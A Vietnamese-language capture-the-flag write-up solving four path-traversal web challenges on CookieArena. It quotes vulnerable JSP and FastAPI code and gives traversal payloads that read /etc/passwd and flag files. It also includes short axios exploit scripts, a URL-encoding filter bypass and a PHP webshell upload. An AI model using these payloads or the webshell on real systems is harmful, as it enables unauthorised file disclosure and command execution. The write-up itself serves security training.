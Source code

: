 # Path traversal

## Under Construction

link: https://battle.cookiearena.org/challenges/web/under-construction

![image](https://hackmd.io/_uploads/SJvNzZXpT.png)

### Phân tích 
- chúng ta cần đọc flag ở file ```/flag.txt```

vào trang web mình được 1 file ảnh 

![image](https://hackmd.io/_uploads/HJXeQWQ6p.png)

Ctrl + U

![image](https://hackmd.io/_uploads/S1VMXWQpa.png)

mình đọc source code được 

```java!
<%@ page trimDirectiveWhitespaces="true" %>
<%
String filepath = getServletContext().getRealPath("resources") + "/";
String _file = request.getParameter("file");

response.setContentType("image/jpeg");
try{
    java.io.FileInputStream fileInputStream = new java.io.FileInputStream(filepath + _file);
    int i;   
    while ((i = fileInputStream.read()) != -1) {  
        out.write(i);
    }   
    fileInputStream.close();
}catch(Exception e){
    response.sendError(404, "Not Found !" );
}
%>
```

- chúng ta có thể thấy lab chỉ lấy tên file và gắn vào đường dẫn thư mục hiện tại không có validate
- 
### Khai thác

- mình tiến hành thử các payload path traversal và thành công với ```../../../../../../etc/passwd```



![image](https://hackmd.io/_uploads/Hy5SQZ766.png)

và mình đọc được flag là **CHH{unD3R_cOns7rUcTI0N_12e0e40383a65d5ca8845f2a8db826f5}**

![image](https://hackmd.io/_uploads/rJqcQb7pT.png)

mình đã viết lại script khai thác

```typescript!
import axios from "axios";

const url: string = "http://103.97.125.56:32550";
axios
  .get(url + "/image.jsp?file=../../../../../../flag.txt")
  .then((response) => console.log(response.data));
```


## File Download

link: https://battle.cookiearena.org/challenges/web/file-download

![image](https://hackmd.io/_uploads/r1aJv-7pa.png)


### Phân tích 

mình thử tạo 1 file có tên là abc.txt và upload lên web 

![image](https://hackmd.io/_uploads/BJwqdWQaa.png)

sau đó web đưa chúng ta đến đường dẫn để có thể đọc được file 

![image](https://hackmd.io/_uploads/rk2ytZm6a.png)

và để ý trên url mình thấy có params name có giá trị là file mình vừa tạo ```?name=abc.txt```


### Khai thác

vào repeater mình thử tấn công path traversal và đọc được file /etc/passwd


![image](https://hackmd.io/_uploads/H1qFdWXp6.png)

và mình đọc được flag là **CHH{eASy_DoWN104d_F1L3_d342c04af27a998002638e5e4f6c1a69}**

![image](https://hackmd.io/_uploads/B1vuYW76a.png)

mình đã viết lại script khai thác

```typescript!
import axios from "axios";

const url: string = "http://103.97.125.56:32171";
axios
  .get(
    url +
      "/read?name=../../../../../../../../../../../../../../../../../../../../../../../../flag.txt"
  )
  .then((response) => console.log(response.data));
```


## Baby OS Path

link: https://battle.cookiearena.org/challenges/web/baby-os-path

![image](https://hackmd.io/_uploads/S14d5-Xp6.png)

### Phân tích 

![image](https://hackmd.io/_uploads/BJMh9WQTa.png)

đọc source code được 

```python!
# Serve static files
@ app.get("/{px:path}")
def serve_frontend(px: str):
    root_dir = "statics"
    file_path = os.path.join(root_dir, px)

    if "etc" in file_path:
        return "Deny"

    if (os.path.exists(file_path)) and os.path.isfile(file_path):
        return FileResponse(file_path)
    else:
        return FileResponse(os.path.join(root_dir, "index.html"))
```

- @app.get("/{px:path}"): Đây là một decorator định nghĩa một route cho ứng dụng FastAPI. Đường dẫn của route này được chỉ định bằng {px:path}, với path là một biến được sử dụng để biểu thị một phần của URL.

- root_dir = "statics": Đây là thư mục gốc chứa các tệp tĩnh.

- file_path = os.path.join(root_dir, px): Đường dẫn đến tệp được yêu cầu được xây dựng bằng cách kết hợp root_dir với phần đường dẫn được truyền từ URL.

- if "etc" in file_path: return "Deny": Điều này kiểm tra xem có chứa chuỗi "etc" trong đường dẫn của tệp được yêu cầu không. Nếu có, nó trả về một thông báo từ chối.


![image](https://hackmd.io/_uploads/HkuB0b7p6.png)

- if (os.path.exists(file_path)) and os.path.isfile(file_path): return FileResponse(file_path): Điều này kiểm tra xem tệp được yêu cầu có tồn tại và là một tệp (không phải là thư mục) hay không. Nếu có, nó trả về nội dung của tệp đó thông qua FileResponse.

- else: return FileResponse(os.path.join(root_dir, "index.html")): Nếu tệp không tồn tại hoặc không phải là một tệp, nó sẽ trả về nội dung của trang index.html trong thư mục statics.

### Khai thác
vậy mình tấn công path traversal với payload sau 
```!
/../../../../../../../../../flag.txt
```

và được flag là **CHH{pls_ReAD_C4refully_Docs_Os_PaTH_cd4b96d927832f0cabf7c655941a4ec1}**

![image](https://hackmd.io/_uploads/Hk7lAWXTa.png)


## Upload File Path Traversal

link: https://battle.cookiearena.org/challenges/web/upload-file-path-traversal

![image](https://hackmd.io/_uploads/Hklz1GXa6.png)

### Phân tích

mình upload 1 file ảnh bình thường và thành công 

![image](https://hackmd.io/_uploads/HJOu1GX6T.png)

thay đổi đuôi file thành anh.php và vẫn thành công

![image](https://hackmd.io/_uploads/HkbyeGmpT.png)

nhưng khi đọc file thì mình không được phép 
- có thể trong thư mục này đã chặn thực thi code php 

![image](https://hackmd.io/_uploads/HyHeWzm6T.png)

- vậy mình cần tìm cách để upload file lên 1 thư mục khác và có thể tại đó sẽ được phép chạy code php


### Khai thác

ký tự "../" bị filter và mình url encode và thành công
- cùng với đó mình tạo 1 webshell để tương tác với hệ thống qua parameter cmd

![image](https://hackmd.io/_uploads/H12wTSXpp.png)


![image](https://hackmd.io/_uploads/SyfbABXpp.png)

file mình cần đọc là **flagiiio0.txt**

![image](https://hackmd.io/_uploads/BJdS0BmTp.png)

và mình được flag là **CHH{uPl04d_vIA_P4tH_Trav3r54L_8f2630c303b41e28773a3f174331e6c2}**

![image](https://hackmd.io/_uploads/HJbuASQap.png)
